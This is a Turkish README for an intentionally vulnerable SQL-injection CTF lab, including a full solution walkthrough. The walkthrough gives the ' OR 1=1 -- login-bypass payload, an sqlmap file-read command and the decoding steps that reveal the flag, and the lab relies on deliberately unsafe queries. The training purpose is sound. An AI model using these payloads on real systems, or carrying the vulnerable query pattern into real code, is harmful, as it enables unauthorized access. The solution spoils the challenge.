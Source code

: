 # SQL Injection Zorlu CTF Labı

![CTF](https://img.shields.io/badge/CTF-Lab-blue)

---

## İçindekiler

- [Proje Hakkında](#proje-hakkında)
- [Özellikler](#özellikler)
- [Kurulum](#kurulum)
- [Nasıl Çözülür?](#nasıl-çözülür)
  - [1. Giriş Formunu Bypass Etme (SQL Injection)](#1-giriş-formunu-bypass-etme-sql-injection)
  - [2. Gizli Flag Dosyasını Bulma](#2-gizli-flag-dosyasını-bulma)
  - [3. Flag’i Decode Etme](#3-flag’i-decode-etme)
- [Dosya ve Klasör Yapısı](#dosya-ve-klasör-yapısı)
- [Güvenlik Notları](#güvenlik-notları)
- [İleri Seviye Öneriler](#ileri-seviye-öneriler)
- [Katkıda Bulunanlar](#katkıda-bulunanlar)
- [Lisans](#lisans)

---

## Proje Hakkında

Bu proje, siber güvenlik alanında kendini geliştirmek isteyenler için hazırlanmış, **zor seviyede SQL Injection açığı içeren** bir CTF (Capture The Flag) laboratuvarıdır. Amacı, gerçekçi ve dayanıklı bir ortamda SQL Injection tekniklerini kullanarak:

- Giriş kontrol mekanizmasını bypass etmek,
- Sistem dosyalarında gizlenmiş flag’i keşfetmek,
- Flag içeriğini base64 ve hex formatlarından çözümleyerek anlamak,

gibi kritik becerileri öğretmektir.

---

## Özellikler

- **Hazırlanmış ifade (Prepared Statements) yerine kasıtlı olarak zafiyetli SQL sorguları**
- **SQL Injection ile bypass edilebilir giriş formu**
- **Flag, veritabanında değil sistemin gizli bir klasöründe `.assets/style.css` dosyasına base64 olarak gömülü**
- **Flag içeriği hex formatında saklanmış, çözüm için analiz gerektiriyor**
- **Bootstrap tabanlı estetik ve kullanıcı dostu arayüz**
- **Yanıltıcı ipuçları ve sahte log kayıtlarıyla zorluk artırılmış**

---

## Kurulum

1. **Sunucu ortamı hazırla:**

   - Apache + PHP + MySQL çalışır durumda olmalı (örneğin XAMPP, MAMP veya benzeri).

2. **Projeyi sunucuya kopyala:**

   - Proje dosyalarını `htdocs` veya `www` dizinine yerleştir.

3. **Veritabanını oluştur ve import et:**

   - PhpMyAdmin veya komut satırı ile yeni bir `ctf_zor` veritabanı oluştur.
   - `db.sql` dosyasını veritabanına import et.

4. **Web tarayıcısında projeyi aç:**

   - Örneğin: `http://localhost/index.php`

---

## Nasıl Çözülür?

### 1. Giriş Formunu Bypass Etme (SQL Injection)

- Giriş formu kasıtlı olarak SQL Injection açığı içerir.
- Kullanıcı adı ve şifre alanlarına aşağıdaki payload’ları kullanarak giriş yapabilirsiniz:

```text
Kullanıcı Adı: ' OR 1=1 --
Şifre: HerhangiBirŞey
```
- Bu, sorgunun şu şekilde çalışmasını sağlar:

```sql
SELECT * FROM users WHERE username='' OR 1=1 -- ' AND password='HerhangiBirŞey'
```

- Bu sorgu her zaman true döner ve giriş başarılı olur.

## 2. Gizli Flag Dosyasını Bulma
Flag, veritabanında değil sistemin gizli .assets klasöründeki style.css dosyasında saklanıyor.

- Dosya içeriği içinde flag, base64 olarak gömülü.

- SQL Injection açığı kullanılarak dosya okuma yapılmalı (örneğin sqlmap ile):

```bash
sqlmap -u "http://localhost/vulnerable.php?id=1" --file-read="/var/www/html/.assets/style.css"
```

- Böylece style.css dosyasının içeriğini elde edersiniz.

## 3. Flag’i Decode Etme
Dosya içeriğinde şu gibi base64 kodu vardır:

```css
meta::before { content: "base64:ZmxhZz0iNDY0YzQxNDc2NGE2NTY2N2MyMmMiOwo="; }
```

- Base64 çözümlemek için:

```bash
echo ZmxhZz0iNDY0YzQxNDc2NGE2NTY2N2MyMmMiOwo= | base64 -d
```

- Çıktı şu şekildedir:

```text
flag="464c41477b546869734973486172647d";
```

- Hex decode için:

```bash
echo 464c41477b546869734973486172647d | xxd -r -p
```

- Sonuç:

```text
FLAG{ThisIsHard}
```

### Dosya ve Klasör Yapısı

```bash
/
├── index.php        # Giriş sayfası, SQLi açığı var
├── panel.php        # Panel sayfası
├── hint.php         # Yanıltıcı ipuçları
├── 404.php          # Özel hata sayfası
├── db.sql           # Veritabanı dump dosyası
└── .assets/         # Gizli klasör
    └── style.css    # Flag içeren dosya (base64 gömülü)
```

### Güvenlik Notları
- Bu proje eğitim amaçlıdır, gerçek ortamda kullanılmamalıdır.

- Kasıtlı olarak SQL Injection açığı içermektedir.

- Yasal izin olmadan canlı sistemlerde test edilmemelidir.

### Ileri Seviye Öneriler
- Blind SQL Injection senaryosu ekleyebilirsiniz.

- Local File Inclusion (LFI) ve Remote File Inclusion (RFI) açıkları ile çeşitlendirebilirsiniz.

- XSS, CSRF gibi diğer zafiyetlerle labı zenginleştirebilirsiniz.

- Çoklu kullanıcı ve yetki kontrolü ekleyerek gerçekçilik artırılabilir.

### Katkıda Bulunanlar
- Proje sahibi: [Troll]

### Lisans
Bu proje MIT Lisansı altında lisanslanmıştır. Daha fazla bilgi için LICENSE dosyasına bakınız.

